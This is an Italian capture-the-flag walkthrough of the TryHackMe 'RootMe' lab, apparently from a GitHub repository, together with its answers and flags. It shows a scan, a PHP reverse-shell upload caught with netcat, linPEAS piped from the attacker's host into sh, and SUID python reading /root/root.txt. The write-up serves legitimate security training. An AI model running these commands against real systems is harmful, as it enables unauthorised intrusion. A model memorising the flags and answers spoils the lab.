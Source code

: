 # RootMe

RootMe è un Capture The Flag (CTF) di livello facile, progettato per sviluppare competenze avanzate di penetration testing e escalation dei privilegi. Iniziamo il nostro viaggio accedendo alla macchina bersaglio tramite la nostra Kali Linux e avviando una scansione Nmap per esplorare le porte e i servizi disponibili.

```sh
└─$ sudo nmap -p- -sS -A 10.10.152.152
```
![Alt text](img/image.png)

I risultati della scansione rivelano due porte aperte: la porta 22 per SSH e la porta 80 per HTTP. Queste informazioni ci permettono di rispondere a tre domande fondamentali:

$${\color{red}Scan \space the \space machine, \space how \space many \space ports \space are \space open?
} \space {\color{green}2}$$

$${\color{red}What \space version \space of \space Apache \space is \space running?
} \space {\color{green}2.4.29}$$

$${\color{red}What \space service \space is \space running \space on \space port \space 22?
} \space {\color{green}SSH}$$

Dopo la scansione, ci dirigiamo verso il servizio HTTP sulla porta 80. Nonostante un'animazione accattivante, decidiamo di utilizzare goBuster per individuare eventuali directory nascoste.

![Alt text](img/image-1.png)

```sh
└─$ gobuster dir -u "http://10.10.152.152:80" -w /usr/share/wordlists/dirb/common.txt
```
![Alt text](img/image-2.png)

All'interno della directory "/panel/", scopriamo un'area dedicata al caricamento di file, indicando la possibilità di un potenziale exploit. Sfruttando l'ambiente Apache, carichiamo una reverse shell in PHP dopo averla personalizzata con il nostro indirizzo IP e la porta. Successivamente, mettiamo in ascolto con Netcat prima di interagire con la nostra reverse shell attraverso la directory "/uploads/".

$${\color{red}What \space is \space the \space hidden \space directory?
} \space {\color{green}/panel/}$$

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]

![Panel](img/image-3.png)

![Uploads](img/image-4.png)

```sh
└─$ nc -lnvp 4444
```
Una volta ottenuto l'accesso al sistema, procediamo alla ricerca del file "user.txt".
![Alt text](img/image-5.png)

```sh
└─$ find / -name user.txt 2>/dev/null
```
![Alt text](img/image-6.png)

<span style="color:red">
  user.txt
</span>

<span style="color:green">
THM{y0u_g0t_a_sh3ll}
</span>
Rispondiamo alla prima domanda del Task 4, eseguendo una ricerca dei file con permessi SUID.

```sh
└─$ find / -user root -perm /4000
```
Identificando il file "weird" nella directory "/usr/bin/python", approfondiamo ulteriormente l'analisi. Scarichiamo linPEAS sulla nostra macchina e lo trasferiamo al sistema bersaglio attraverso un server web Python temporaneo e in fine lo eseguiremo.

![Alt text](img/image-8.png)

$${\color{red}Search \space for \space files \space with \space SUID \space permission, \space which \space file \space is \space weird?
} \space {\color{green}/usr/bin/python}$$

Ora per prendere l'ultima flag devo scalare i privilegi e per farlo mi aiuto con linPEAS.<br>
quindi lo scarico sulla mia macchina da qui
https://github.com/carlospolop/PEASS-ng/releases/tag/20231231-3221ac1a

```sh
└─$ sudo python -m http.server 8000
└─$ curl 10.14.65.216/linpeas.sh | sh
```

L'output di linPEAS evidenzia numerosi riferimenti a "python", aprendo la possibilità di utilizzarlo per leggere il contenuto del file "root.txt" nella directory "/root/".

```sh
└─$ python -c 'print(open("/root/root.txt").read())' 
```
Rispondendo all'ultima domanda del CTF, otteniamo il flag di root:

![Alt text](img/image-7.png)

$${\color{red}root.txt
} \space {\color{green}THM\{pr1v1l3g3_3sc4l4t10n\}}$$


